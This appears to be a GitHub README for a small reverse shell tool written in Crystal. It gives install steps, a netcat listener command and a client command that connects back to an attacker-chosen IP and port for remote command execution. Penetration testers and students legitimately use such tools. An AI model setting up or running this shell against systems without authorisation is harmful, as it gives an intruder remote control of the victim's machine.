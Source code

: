 # reverse_shell

Simple reverse shell using `Sockets`, `Process` and `File`.

## Installation

```sh
git clone https://github.com/js-on.de/WeaponizeCrystal.git
cd WeaponizeCrystal/reverse_shell
shards install
```

## Usage
*./reverse_shell ip port*
```sh
# Listener:
nc -lvnp 4444

# Client:
./reverse_shell <listener ip> 4444
```

You can use any bash commands you want. The shell value of `Process.run` is `true`, so even pipes are working.

Internal bash commands are not yet implemented due to missing importance; except of `cd`.

Type `?, help` to view commands provided by this reverse shell.

## Development

See [Contributing](https://github.com/js-on/WeaponizeCrystal/tree/main/reverse_shell#Contributing)

## Contributing

1. Fork it (<https://github.com/js-on/reverse_shell/fork>)
2. Create your feature branch (`git checkout -b my-new-feature`)
3. Commit your changes (`git commit -am 'Add some feature'`)
4. Push to the branch (`git push origin my-new-feature`)
5. Create a new Pull Request

## Contributors

- [js-on](https://github.com/js-on) - creator and maintainer
